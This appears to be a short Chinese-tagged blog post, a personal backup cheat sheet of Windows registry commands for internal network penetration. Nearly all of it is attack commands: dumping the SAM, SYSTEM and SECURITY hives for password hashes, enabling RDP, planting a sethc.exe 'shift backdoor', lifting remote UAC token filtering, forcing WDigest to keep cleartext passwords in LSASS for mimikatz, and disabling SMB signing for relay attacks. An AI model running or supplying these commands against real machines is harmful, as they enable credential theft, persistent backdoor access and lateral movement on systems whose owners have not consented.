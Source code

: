 ```yaml
---
title: "Windows 常用命令"
date: 2019-07-08T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["windows"]
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



仅作为备份.

<!--more-->

## dump hive hash

dump system hash into .hive file.

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

## open port 3389

one command.

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## sethc hijacking

shift backdoor.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

## disabled uac policy

allow remote access for other administrator users.

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## store clearpassword in lsass

mimikatz for server 2012.

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

## disable smb signature

smb relay attack.

```
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```